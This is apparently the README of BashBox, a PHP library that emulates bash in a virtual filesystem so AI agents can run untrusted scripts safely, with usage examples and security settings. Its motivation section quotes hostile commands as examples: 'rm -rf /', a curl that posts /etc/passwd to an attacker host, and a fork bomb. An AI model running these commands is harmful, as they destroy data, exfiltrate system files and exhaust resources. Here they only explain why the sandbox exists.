

<p align="center">
    
</p>

<p align="center">
    <a href="https://github.com/shipfastlabs/bashbox/actions"></a>
    <a href="https://packagist.org/packages/shipfastlabs/bashbox"></a>
    <a href="https://packagist.org/packages/shipfastlabs/bashbox"></a>
    <a href="https://packagist.org/packages/shipfastlabs/bashbox"></a>
</p>

**BashBox** is a sandboxed bash interpreter for AI agents, written in pure PHP 8.4+. It does not use `proc_open`, `exec`, or `shell_exec`. Every command is a PHP class, every file lives in a virtual filesystem, and every execution has hard limits.

> **Requires [PHP 8.4+](https://php.net/releases/)**


## Why BashBox?

Imagine you are building an AI coding assistant. A user asks: "Can you analyze my logs and find all error messages from the last hour?"

Your AI generates a bash script:

```bash
cat /var/log/app.log | grep "ERROR" | awk '{print $1, $2, $5}' | sort | uniq -c | sort -rn
```

**The problem:** Running user-generated bash code on your servers is dangerous. One malicious script could delete critical files (`rm -rf /`), exfiltrate sensitive data (`curl -d @/etc/passwd attacker.com`), launch denial-of-service attacks (`:(){ :|:& };:`), or access internal network resources (SSRF attacks).

**Traditional solutions** use containers or VMs, but those are slow, resource-heavy, and complex to orchestrate.

**BashBox** takes a different approach. It implements a complete bash interpreter in pure PHP with zero system calls. Think of it as a "bash emulator" that gives you:

- **Instant execution** with no container startup time
- **True isolation** with no access to your real filesystem or network unless you explicitly allow it
- **Fine-grained control** to limit commands, loops, memory, and execution time
- **Full bash compatibility** including pipes, redirects, functions, control flow, and substitutions

Perfect for AI agents, code execution platforms, CI/CD systems, or anywhere you need to run untrusted bash scripts safely.

## Installation

Install BashBox using [Composer](https://getcomposer.org):

```bash
composer require shipfastlabs/bashbox
```

## Usage Examples

### Basic Script Execution

```php
use BashBox\Bash;

$bash = new Bash;

$result = $bash->exec('echo "Hello, World!"');

$result->stdout;   // "Hello, World!\n"
$result->exitCode; // 0
```

### Variables and Pipes

```php
$result = $bash->exec('
    NAME="BashBox"
    echo "Hello, $NAME" | tr a-z A-Z
');

$result->stdout; // "HELLO, BASHBOX\n"
```

### Write and Read Files

```php
$bash->exec('echo "hello" > greeting.txt');
$bash->exec('cat greeting.txt'); // "hello\n"

// Or directly via PHP:
$bash->writeFile('/home/user/data.txt', 'some content');
$bash->readFile('/home/user/data.txt'); // "some content"
```

### Pre-loaded Files

```php
use BashBox\Bash;
use BashBox\BashOptions;

$bash = new Bash(new BashOptions(
    initialFiles: [
        '/home/user/config.json' => '{"key": "value"}',
        '/home/user/script.sh' => 'echo "running"',
    ],
));

$result = $bash->exec('cat config.json');
$result->stdout; // '{"key": "value"}'
```

### Environment Variables

```php
$bash = new Bash(new BashOptions(
    env: ['APP_ENV' => 'production', 'DEBUG' => 'false'],
));

$result = $bash->exec('echo $APP_ENV');
$result->stdout; // "production\n"
```

### Control Flow

```php
$result = $bash->exec('
    for i in 1 2 3; do
        echo "Item $i"
    done
');

$result->stdout; // "Item 1\nItem 2\nItem 3\n"
```

```php
$result = $bash->exec('
    if [ -f greeting.txt ]; then
        echo "exists"
    else
        echo "not found"
    fi
');
```

### Functions

```php
$result = $bash->exec('
    greet() {
        echo "Hello, $1!"
    }
    greet World
    greet PHP
');

$result->stdout; // "Hello, World!\nHello, PHP!\n"
```

### Stdin

```php
use BashBox\ExecOptions;

$result = $bash->exec('grep "error"', new ExecOptions(
    stdin: "line 1\nerror found\nline 3\n",
));

$result->stdout; // "error found\n"
```

### Execution Limits

```php
use BashBox\Bash;
use BashBox\BashOptions;
use BashBox\Limits;

$bash = new Bash(new BashOptions(
    limits: new Limits(
        maxCommandCount: 100,
        maxLoopIterations: 500,
        maxOutputSize: 1024 * 1024, // 1MB
        maxCallDepth: 10,
    ),
));
```

### Custom Commands

```php
use BashBox\Commands\AbstractCommand;
use BashBox\Commands\CommandContext;
use BashBox\ExecResult;

class MyCommand extends AbstractCommand
{
    public function getName(): string
    {
        return 'mycommand';
    }

    public function execute(array $args, CommandContext $ctx): ExecResult
    {
        return $this->success('Hello from my command!');
    }
}

$bash->registerCommand(new MyCommand);
$result = $bash->exec('mycommand');
$result->stdout; // "Hello from my command!"
```

### Filesystem Backends

BashBox ships with four filesystem backends:

```php
use BashBox\Bash;
use BashBox\BashOptions;
use BashBox\Filesystem\InMemoryFs;
use BashBox\Filesystem\OverlayFs;
use BashBox\Filesystem\ReadWriteFs;
use BashBox\Filesystem\MountableFs;

// In-memory (default) — nothing touches disk
$bash = new Bash;

// Overlay — reads from a real directory, writes stay in memory
$bash = new Bash(new BashOptions(
    fs: new OverlayFs('/path/to/project'),
));

// Read-write — real disk I/O via amphp/file
$bash = new Bash(new BashOptions(
    fs: new ReadWriteFs('/path/to/sandbox'),
));

// Mountable — combine multiple backends at different paths
$mount = new MountableFs(new InMemoryFs);
$mount->mount('/data', new ReadWriteFs('/real/data'));
$bash = new Bash(new BashOptions(fs: $mount));
```

All backends implement the same `FileSystemInterface`, including:

- File reads, writes, appends, copies, moves, and deletes
- Directory creation and directory listing with file-type metadata
- `stat` / `lstat` metadata via `FsStat`
- `chmod`, `utimes`, hard links, symbolic links, `readlink`, and `realpath`

Backend behavior:

- `InMemoryFs` is fully virtual and never touches disk
- `OverlayFs` reads from a real directory and keeps writes in an in-memory copy-on-write layer
- `ReadWriteFs` reads and writes directly to disk inside the configured root
- `MountableFs` combines multiple backends under different mount points and supports cross-mount copies

Example:

```php
$bash = new Bash(new BashOptions(
    fs: new ReadWriteFs('/path/to/sandbox'),
));

$bash->exec('echo "#!/bin/bash" > /script.sh');
$bash->getFilesystem()->chmod('/script.sh', 0755);

$stat = $bash->getFilesystem()->stat('/script.sh');
$stat->mode;  // 0755
$stat->size;  // file size in bytes
```

### Network Access

Network is **off by default**. Enable it by passing a `NetworkConfig`:

```php
use BashBox\Bash;
use BashBox\BashOptions;
use BashBox\Network\NetworkConfig;

$bash = new Bash(new BashOptions(
    network: new NetworkConfig(
        allowedUrlPrefixes: ['https://api.example.com/'],
        allowedMethods: ['GET', 'POST'],
        denyPrivateRanges: true,  // SSRF protection
        maxResponseSize: 5 * 1024 * 1024, // 5MB
        maxRedirects: 10,
        timeout: 10,
    ),
));

$result = $bash->exec('curl -s https://api.example.com/data');
```

#### Unrestricted Network Access

For scenarios where you need full internet access without URL or method restrictions, use the `dangerouslyAllowFullInternetAccess` option:

```php
use BashBox\Bash;
use BashBox\BashOptions;
use BashBox\Network\NetworkConfig;

$bash = new Bash(new BashOptions(
    network: new NetworkConfig(
        dangerouslyAllowFullInternetAccess: true,
        // denyPrivateRanges still protects against SSRF attacks
        denyPrivateRanges: true,
        maxResponseSize: 5 * 1024 * 1024, // 5MB
        maxRedirects: 10,
        timeout: 10,
    ),
));

// Now any URL and HTTP method is allowed
$result = $bash->exec('curl -X POST https://any-website.com/api');
```

> **⚠️ SECURITY WARNING:** The `dangerouslyAllowFullInternetAccess` option disables URL prefix and HTTP method restrictions. Only use this in trusted environments where you control the input. SSRF protection (`denyPrivateRanges`) is still applied unless explicitly disabled.

When network is configured, the `curl` command becomes available. Without it, `curl` does not exist.

### Sandbox API

A simpler API for quick use:

```php
use BashBox\Sandbox\Sandbox;

$sandbox = Sandbox::create();

$sandbox->writeFiles([
    '/home/user/app.sh' => 'echo "running"',
]);

$result = $sandbox->runCommand('bash app.sh');
$result->stdout;   // "running\n"
$result->exitCode; // 0

$sandbox->readFile('/home/user/app.sh'); // 'echo "running"'
```

### Available Commands

BashBox includes 35+ built-in commands:

| Category | Commands |
|---|---|
| **Output** | `echo`, `printf`, `cat`, `head`, `tail`, `tee` |
| **Files** | `ls`, `pwd`, `mkdir`, `rm`, `cp`, `mv`, `touch`, `find` |
| **Text** | `grep`, `sort`, `uniq`, `wc`, `cut`, `tr`, `sed`, `rev` |
| **Utils** | `xargs`, `env`, `printenv`, `basename`, `dirname`, `seq` |
| **Info** | `date`, `which`, `whoami`, `hostname`, `tree`, `test` |
| **Encoding** | `base64` |
| **Network** | `curl` (only when network is configured) |
| **Builtins** | `true`, `false` |

Shell builtins: `cd`, `export`, `unset`, `local`, `set`, `shopt`, `source`, `eval`, `declare`, `read`, `break`, `continue`, `return`, `exit`, `shift`, `getopts`, `let`, `mapfile`

### Security

BashBox is built for untrusted input:

- No `proc_open`, `exec`, `shell_exec`, `system`, or `passthru` — anywhere
- All filesystem access goes through `FileSystemInterface`
- Path traversal and null-byte injection are blocked
- `OverlayFs` denies symlinks by default when reading from real directories
- Network is off by default; when enabled, every request and redirect target goes through URL prefix checks, method allow-lists, SSRF protection, response-size caps, and timeouts
- Every execution has gas counters for loops, commands, output, and recursion

## Contributing

### Getting Started

Clone the repo and install dependencies:

```bash
git clone git@github.com:shipfastlabs/bashbox.git
cd bashbox
composer install
```

### Running Tests

BashBox uses [Pest](https://pestphp.com) for testing, [PHPStan](https://phpstan.org) for static analysis, [Pint](https://laravel.com/docs/pint) for code style, [Rector](https://getrector.com) for automated refactoring, and [Peck](https://github.com/peckphp/peck) for typo checking.

Run everything at once:

```bash
composer test
```

Or run each tool individually:

```bash
composer test:unit     # Pest — unit tests with coverage
composer test:types    # PHPStan — static analysis (level 5)
composer test:lint     # Pint — code style check
composer test:refactor # Rector — dry-run refactoring suggestions
composer test:typos    # Peck — spell check class names, methods, etc.
```

To auto-fix code style and apply refactors:

```bash
composer lint     # Pint — fix code style
composer refactor # Rector — apply refactors
```

### Before Submitting a PR

Make sure the full suite passes:

```bash
composer test
```

This runs lint, static analysis, tests, and typo checking — in that order. All four must pass.

---

**BashBox** was created by **Pushpak Chhajed** under the **[MIT license](https://opensource.org/licenses/MIT)**.
